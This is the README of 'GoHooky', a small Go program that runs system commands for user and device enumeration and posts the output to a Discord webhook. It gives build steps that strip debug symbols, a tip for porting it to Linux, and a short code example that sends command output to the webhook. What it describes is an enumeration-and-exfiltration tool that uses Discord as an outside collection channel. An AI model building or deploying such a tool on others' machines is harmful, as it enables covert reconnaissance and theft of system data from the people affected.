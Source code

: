# GoHooky

A simple Go application that executes system commands, for user and device enumeration, and sends the output to Discord via webhooks.

## Features

- Executes Windows command-line commands
- Sends command output to Discord using webhooks
- Supports JSON-formatted message content
- Error handling for both command execution and Discord communication

## Prerequisites

- Go installed on your system
- A Discord webhook URL
- Windows operating system (for current implementation)

## Installation

1. Clone the repository.
2. Navigate to the project directory.
3. Replace `<ENTERWEBHOOKURL>` with your actual Discord webhook's URL.
3. Run `go build -ldflags "-s -w" main.go` to compile.

## Usage

The application provides two main functions:

- `runCommand(cmd string)`: Executes a Windows command and returns its output
- `sendToDiscord(webhookURL string, message string)`: Sends a message to a Discord channel via webhook

*Note: If you want to make this run on a Linux host, change `exec.Command("cmd", "/C", cmd)` to `exec.Command("bash", "-c", cmd)` on Line 19.*

Example usage in code:

```go
output, err := runCommand("dir")
if err != nil {
    log.Fatal(err)
}

err = sendToDiscord("your-webhook-url", output)
if err != nil {
    log.Fatal(err)
}

